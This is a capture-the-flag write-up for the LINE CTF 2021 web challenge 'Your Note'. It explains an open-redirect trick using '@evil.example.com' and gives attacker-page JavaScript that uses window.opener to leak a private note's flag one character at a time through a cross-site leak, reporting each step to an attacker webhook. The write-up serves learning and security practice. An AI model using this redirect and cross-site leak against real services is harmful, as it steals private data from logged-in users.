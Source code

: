 # LINE CTF 2021 - Web - Your Note

## Problem

> Secure private note service<br>
> ※ Admin have disabled some security feature of their browser...
>
> Flag Format: LINECTF{[a-z0-9-]+}
>
> http:// 34.84.243.202<br>
> http:// 35.200.11.35 (mirror)<br>
> http:// 34.84.72.167 (mirror)

## Solution

### Step 1. Redirect to an arbitrary URL

The login API is as follows:
```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    url = request.args.get('redirect')
    if url:
        url = app.config.get('BASE_URL') + url
        if current_user.is_authenticated:
            return redirect(url)

    if request.method == 'POST':
        # -- snip --

    elif request.method == 'GET':
        return render_template('login.html')
```

This API provides a redirect to `app.config.get('BASE_URL') + request.args.get('redirect')`, where `BASE_URL = f"http://{APP_HOST}"`.

Then, if we send `http://34.84.72.167/login?redirect=@evil.example.com` to the bot, the redirect url is `http://{APP_HOST}@evil.example.com`. So, we can make the bot redirect to an arbitary URL because `{APP_HOST}` is interpreted as a user name in the URL.

## Step 2. Specify the flag with `window.opener`

A part of `crawler.js` is as follows:
```javascript
        /* -- snip -- */

        const browser = await puppeteer.launch({
            args: [
                '--no-sandbox',
                '--disable-popup-blocking',
            ],
            headless: true,
        });
        const page = await browser.newPage();

        /* -- snip -- */
```

The `--disable-popup-blocking` option enables us to use `window.open`.

So, I prepared the following attack server:

- `index.html`:
    ```html
    <script>
      window.open("evil.html");
    </script>
    ```
- `empty.html`:
    ```html

    ```
- `evil.html`
    ```html
    <script>
    const url = "http://34.84.72.167";
    const webhook = "https://{{ ... }}";
    const chars = "}-abcdefghijklmnopqrstuvwxyz0123456789";
    const sleep = (ms) => new Promise((r) => setTimeout(r, ms));

    const main = async () => {
      await sleep(200);

      window.open(`${webhook}/ping`);

      let prefix = "LINECTF{";

      while (true) {
        if (prefix.endsWith("}")) {
          break;
        }
        window.open(`${webhook}/prefix/${prefix}`);

        await sleep(200);
        let exists = false;
        for (const c of chars) {

          window.opener.location.href = `/empty.html`;
          await sleep(200);
          window.opener.location.href = `${url}/search?q=${prefix + c}&download`;
          await sleep(500);

          try {
            console.log(window.opener.document.body.textContent);
            prefix += c;
            exists = true;
            break;
          } catch (e) { }
        }
        if (!exists) {
          window.open(`${webhook}/fail/${prefix}`);
          return;
        }
      }
      window.open(`${webhook}/success/${prefix}`);
    };
    main();
    </script>
    ```

If a user who has a note with a flag `LINECTF{[a-z0-9-]+}` accesses `index.html`, the flag is leaked in order from the first character. This is a XS-leak attack with Cross-Origin-Opener-Policy.

This attack was successful in my local environment. However, unfortunately, because the problem server was unstable, I got the flag by adjusting the sleep times and saving the search range at that point :(
